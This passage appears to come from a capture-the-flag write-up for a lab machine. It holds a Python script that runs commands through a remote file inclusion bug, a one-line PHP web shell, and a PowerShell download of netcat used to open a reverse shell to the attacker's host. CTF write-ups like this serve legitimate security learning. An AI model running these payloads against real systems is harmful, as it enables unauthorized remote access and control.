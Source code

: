 Next, I quickly wrote a script that would make sending further commands easier and faster while I tried to work out what accesses I had and attempted to upgrade my shell. It's pretty crappy (especially my attempt at filtering command output) and the OPSEC considerations of continually smashing the server with commands via RFI like this are significant.

```python
#!/usr/bin/env python3

import requests
import sys
from bs4 import BeautifulSoup

# ensure smbd is running and a shell is in the share before running this
# shell = "<?php echo(shell_exec($_GET['cmd'])); ?>"

# Take local ip address as first command-line argument
lhost = sys.argv[1]

target = "http://10.10.10.151/blog/?lang=\\\\" + lhost + "\share\shell.php"

while True:
  # Display a little command prompt
  cmd = input("$> ")
  
  # Send the command to the target
  r = requests.get(target + "&cmd=" + cmd)

  # Check that the HTTP request was successful, then filter HTML to only include the output of the command
  if r.status_code == 200:
    soup = BeautifulSoup(r.content, features='lxml')
    output = ""
    count = 0
    for line in soup.findAll('body')[-1].get_text().split('\n'):
      if count >= 46:
        output += line + '\n'
      count += 1
    print(output)
```

I used my crappy shell to have a quick poke around before upgrading to a netcat reverse shell. The steps were:
1. Set up HTTP Server and netcat listener
    - `python -m SimpleHTTPServer 80`
    - `nc -nvlp 443`
2. Transfer the netcat binary across to the server using PowerShell's `Invoke-WebRequest` cmdlet - I picked a directory that I assumed would be writeable
    - `Powershell IWR -URI http://10.10.14.8/nc.exe -OutFile c:\windows\system32\spool\drivers\color\nc.exe`
3. Execute netcat to get a reverse shell
    - `c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.8 443 -e cmd`

Here's the result:

